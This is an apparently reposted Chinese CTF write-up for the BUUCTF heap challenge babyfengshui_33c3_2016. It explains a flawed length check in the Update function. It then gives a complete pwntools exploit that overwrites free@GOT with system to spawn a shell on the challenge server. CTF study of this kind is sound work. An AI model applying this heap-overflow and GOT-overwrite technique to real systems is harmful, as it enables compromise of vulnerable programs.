







# [CTF] [unsorted_bin逻辑漏洞]babyfengshui_33c3_2016

## 原帖信息
- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1831318
- 抓取时间: 2026-11-01T22:46:58

## 题目来源
`buuctf`——`babyfengshui_33c3_2016`

## 参考链接
https://blog.csdn.net/mcmuyanga/article/details/112071029
https://niceseven.github.io/post/2020/03/18/buuctf-pwn-babyfengshui_33c3_2016/

## 题目信息
32位，`ubuntu16`


1截图.png (47.59 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjY0MTUwMHwyNTZlOGM4YXwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwMHwyNTZlOGM4YXwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

功能如下：

2截图.png (56.71 KB, 下载次数: 3)
[href="forum.php?mod=attachment&aid=MjY0MTUwMXw4YzEwNmUwM3wxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwMXw4YzEwNmUwM3wxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

`Add`功能中没有循环函数，因此所有申请的堆从0开始都会保留序号。
`ptr`是索引，`global_i`是全局递增`ptr`偏移变量
最后直接调用了第四个功能（`IDA`中我重命名为`edit`函数了）

3截图.png (33.06 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjY0MTUwMnw5NmIyZGMwOXwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwMnw5NmIyZGMwOXwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

创建的结构体如下图（参考链接2中图片）所示：
- 每次`Add`功能会申请两个`heap`，第一个`heap`保存`description`的内容，第二个保存结构体（固定大小`0x80`字节）。
- 结构体数据部分前四个字节保存`description`堆的地址，后面的`0x7c`字节保存`name`的数值。

4截图.png (10.17 KB, 下载次数: 2)
[href="forum.php?mod=attachment&aid=MjY0MTUwM3xkMTA2NGZiM3wxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwM3xkMTA2NGZiM3wxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

`Delete`功能删除的很干净，连`ptr`也清理了。

5截图.png (20.14 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjY0MTUwNHw0ZTMwMDQ1YnwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwNHw0ZTMwMDQ1YnwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

`Display`功能如下

6截图.png (23.67 KB, 下载次数: 2)
[href="forum.php?mod=attachment&aid=MjY0MTUwNXw1NmZmY2I4YnwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwNXw1NmZmY2I4YnwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

问题出在了`Update`功能中：函数首先让用户输入新的`text`的长度，但是里面用于判断是否可以进行内容修改的逻辑有问题。
开发的逻辑如下：如果没有对`heap`进行删除，`Add`功能正常申请的两个`heap`是相连的，而`description`堆的数据起始地址加上用户输入的字段不可以覆盖了结构体的`size`字段。那么此时就是有问题的。
问题：如果有删除`heap`的操作，那么`Add`申请的两个堆有可能是不在一起的，这个时候可以对中间包含的别的`heap`结构体进行编辑操作。

7截图.png (38.76 KB, 下载次数: 3)
[href="forum.php?mod=attachment&aid=MjY0MTUwNnxmYTY4MGUwOHwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MTUwNnxmYTY4MGUwOHwxNzkzNTczMjE1fDE2ODA4NnwxODMxMzE4&nothumb=yes)
2023-9-8 17:45 上传

## 解题思路
- `Partial RELRO`说明我们可以修改`free`系统函数的`got`表，将其指向`system`的内存加载地址，只需要泄露`libcbase`地址即可。
- 可以通过`Update`的逻辑漏洞对中间包含的`heap`的结构体中指向`description`的地址进行修改，修改为`free_got`的地址
- 用`Display`功能输出`free_got`指向的`free_addr`，计算得出`libcbase`。
- 用`update`功能更新中间包含的`heap`的内容，使得`free_got`指向`system_addr`。
- 删除一个`description`前8个字节为`'/bin/sh\x00'`的`heap`。

## 关键步骤
- 了解堆的释放流程：结合`libc`的版本与操作系统的位数可以得知`0x80`字节的`heap`不属于`fastbin`，也没有`Tchache`掺和，小于512字节的
- 动态调试配合编写`payload`：可利用`pwndbg`中`heapbase`功能查看`heap`内容。

## WP
```python
# -*- coding: utf-8 -*-
from pwn import*

context.log_level='debug'
context.arch='i386'
context.os = "linux"

pc = "babyfengshui_33c3_2016"

if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("node4.buuoj.cn",27553)
        elf = ELF(pc)
        libc = elf.libc

sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def db():
    gdb.attach(r)
    pause()

def dbs(src):
    gdb.attach(r, src)

def add(size,name,text):
    sla("Action: ","0")
    sla("size of description: ",str(size))
    sla("name: ",name)
    sla("text length: ",str(len(text)))
    sla("text: ",text)

def delete(index):
    sla("Action: ","1")
    sla("index: ",str(index))

def show(index):
    sla("Action: ","2")
    sla("index: ",str(index))

def edit(index,length,text): 
    sla("Action: ","3")
    sla("index: ",str(index))
    sla("text length: ",str(length))
    sla("text: ",text)

free_got = elf.got['free']

add(0x80,"bnuzgn","aaaa")
add(0x80,"bnuzgn","bbbb")
delete(0)
#db()
add(0x108,"bnuzgn","cccc")
payload = b"/bin/sh\x00" + b'a'*0x100 +p32(0)+p32(0x89) + b'a'*0x80 + p32(0) + p32(0x89) + p32(free_got)
edit(2,0x210,payload)
show(1)

free_addr = u32(r.recvuntil(b'\xf7')[-4:])
libc_base = free_addr - libc.sym['free']
system_addr = libc_base + libc.sym["system"]
lg('libc_base')
#db()
edit(1,0x4,p32(system_addr))
delete(2)
ti()
```
